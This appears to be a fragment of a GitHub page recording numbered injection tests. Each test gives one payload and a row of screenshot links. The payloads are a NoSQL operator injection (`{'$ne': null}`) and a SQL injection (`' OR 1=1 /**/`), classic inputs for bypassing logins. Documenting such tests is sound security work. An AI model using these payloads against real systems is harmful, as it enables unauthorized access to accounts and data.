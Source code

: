 ## No.7
`{"$ne": null}`
<img width="1919" height="1017" alt="image" src="https://github.com/user-attachments/assets/eb250c00-403b-42a3-a4b4-ff17a4d3ba8f" />
<img width="1919" height="1023" alt="image" src="https://github.com/user-attachments/assets/d99486ed-f2f3-40c3-8287-77381af61f63" />
<img width="1919" height="1016" alt="image" src="https://github.com/user-attachments/assets/766f3d97-923c-4189-b771-903226484f67" />
<img width="1919" height="1007" alt="image" src="https://github.com/user-attachments/assets/afa9e441-112b-4e0e-833a-4d71ff946c29" />

## No.8
`' OR 1=1 /**/`
<img width="1919" height="1018" alt="image" src="https://github.com/user-attachments/assets/bbfaf805-f079-4969-ba8e-5a8f07407ac2" />
<img width="1917" height="260" alt="image" src="https://github.com/user-attachments/assets/f341ac76-9dc2-4116-a273-9f447b328aaf" />
<img width="1919" height="1027" alt="image" src="https://github.com/user-attachments/assets/d9c7df6b-2c79-4de3-b3fa-82bc85a0d6a0" />











